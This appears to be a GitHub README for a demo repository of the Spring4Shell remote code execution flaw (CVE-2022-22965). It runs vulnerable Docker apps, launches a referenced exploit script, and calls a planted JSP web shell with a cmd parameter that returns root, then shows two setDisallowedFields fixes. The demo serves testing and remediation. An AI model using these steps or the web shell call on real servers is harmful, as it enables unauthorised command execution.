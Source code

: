 # Spring4Shell RCE Demo for CVE-2022-22965
![MindMap](spring4shell_mindmap.svg)

## Types of demo

1. spring-mvc (with spring-boot) deployed as a war to Apache Tomcat
2. spring-boot war with jsp, to be run as `java -jar`
3. spring-boot jar without jsp, to be run as `java -jar`

While the first spring-mvc in Apache Tomcat is vulnerable, the latter two types -- where spring-boot runs in Embedded Tomcat Servlet Container -- do not appear to be vulnerable. See also https://www.praetorian.com/blog/spring-core-jdk9-rce/

Lastly, `spring4shell-exploit.sh` is a standalone bash script for testing the exploit against any app.

## Run spring-mvc demo

To run the spring-mvc demo, the war file needs to be deployed to a Tomcat container.

For convenience, there is a pre-built docker container. Here is how see the exploit in action:
```
# Run a sample vulnerable app
$ docker run -p 8080:8080 --rm maxhyper/spring4shell

# Install and run the exploit
$ bash spring4shell-exploit.sh http://localhost:8080 spring4shell/helloworld

# Try manually running (after a small delay)
$ curl --fail -v --output - 'http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=whoami'
> GET /tomcatwar.jsp?pwd=j&cmd=whoami HTTP/1.1
> Host: localhost:8080
> Accept: */*
> 
< HTTP/1.1 200 
< Content-Type: text/html;charset=ISO-8859-1
< Content-Length: 2291
< 
root
```

<br/>

The demo also contains two fixes.

One fix is to apply binder [setDisallowedFields() at controller level](https://github.com/dotnes/spring4shell/blob/main/spring4shell-spring-mvc/src/main/java/com/example/spring4shell/controller/SafeHelloWorldController.java#L22-L29):
```
# Run or restart the sample app.
$ docker run -p 8080:8080 --rm dotnes/spring4shell

# Try to install the exploit against safe controller. It should fail
# (Make sure the exploit was not previously installed)
$ bash spring4shell-exploit.sh http://localhost:8080 spring4shell/safe-helloworld

# Try manually running (after a small delay)
$ curl --fail -v --output - 'http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=whoami'
curl: (22) The requested URL returned error: 404
```

Another fix is to apply [setDisallowedFields() with a controller advice](https://github.com/dotnes/spring4shell/blob/main/spring4shell-spring-mvc/src/main/java/com/example/spring4shell/controller/BinderControllerAdvice.java#L7-L20), for all controllers:
```
# Run or restart the sample app.
$ docker run -p 8080:8080 --rm -e APPLY_ADVICE=true maxhyper/spring4shell

# Install and run the exploit against unsafe controller. It should fail.
# (Make sure the exploit was not previously installed)
$ bash spring4shell-exploit.sh http://localhost:8080 spring4shell/helloworld
curl: (22) The requested URL returned error: 404 
```

## Run spring-boot war with jsp

```
# Run a sample vulnerable app
$ docker run -p 8080:8080 --rm maxhyper/spring4shell-spring-boot-war

# Try to install the exploit. It should fail
$ bash spring4shell-exploit.sh http://localhost:8080 spring4shell/helloworld
curl: (22) The requested URL returned error: 404
```

## Run spring-boot jar without jsp

```
# Run a sample vulnerable app
$ docker run -p 8080:8080 --rm maxhyper/spring4shell-spring-boot-jar

# Try to install the exploit. It should fail
$ bash spring4shell-exploit.sh http://localhost:8080 spring4shell/helloworld
curl: (22) The requested URL returned error: 404
```

